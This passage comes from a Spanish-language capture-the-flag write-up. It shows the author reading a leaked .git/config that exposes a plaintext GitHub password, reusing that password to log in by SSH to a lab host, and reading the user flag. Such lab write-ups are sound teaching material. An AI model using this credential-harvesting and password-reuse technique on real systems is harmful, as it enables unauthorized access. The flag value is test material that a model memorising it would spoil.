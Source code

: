 Este comando me reveló la presencia de un repositorio Git oculto en `./.git`. Saber que un proyecto con control de versiones existe localmente puede ser una fuente valiosa de información, especialmente si los desarrolladores cometieron el error de dejar archivos sensibles versionados.

Dentro del repositorio `.git`, accedí al archivo `config`:

```bash
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_

```

La configuración mostraba datos del usuario del repositorio, y algo aún más interesante: **credenciales de autenticación a GitHub**:

Al ver que la contraseña estaba expuesta directamente, probé utilizar estas credenciales para conectarme por SSH, ya que el nombre de usuario `think` coincidía con lo mostrado en la configuración y era un nombre plausible de usuario del sistema.

## Acceso SSH como el usuario _think_ y obtención de la flag de usuario

Con las credenciales encontradas en el archivo `config` del repositorio Git:

- **Usuario:** `think`
- **Contraseña:** `_TH1NKINGPirate$_`

```bash
ssh think@10.10.204.147
```

Y la conexión fue exitosa, confirmando que la contraseña filtrada en la configuración de GitHub era válida para el sistema.

```bash
think@ip-10-10-204-147:~$ ls
snap  user.txt
think@ip-10-10-204-147:~$ cat user.txt
996bdb1f619a68361417cabca5454705
```

Con esto completé el objetivo de obtener acceso como un usuario válido del sistema y recuperar la flag de usuario
